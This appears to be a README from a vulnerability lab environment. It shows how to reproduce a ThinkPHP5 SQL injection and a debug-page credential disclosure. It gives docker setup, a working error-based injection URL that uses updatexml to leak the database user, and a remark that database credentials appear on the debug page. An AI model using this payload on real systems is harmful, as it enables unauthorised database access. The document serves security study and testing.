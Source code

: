 # ThinkPHP5 SQL Injection Vulnerability && Sensitive Information Disclosure Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

## Rationale

Details to read the references：

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xianzhi.aliyun.com/forum/read/1813.html

## Environment Setup

Enter the following command:

```
docker-compose up -d
```

Visiting `http://your-ip/index.php?ids[]=1&ids[]=2`, you'll see the username is displayed, indicating that the environment is running successfully.

## Exploit

Open the page `http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，you will find messages revealed successfully：

![](01.png)

And you can find the account and password of the database through the debug page.

![](02.png)

This is another sensitive information disclosure vulnerability.

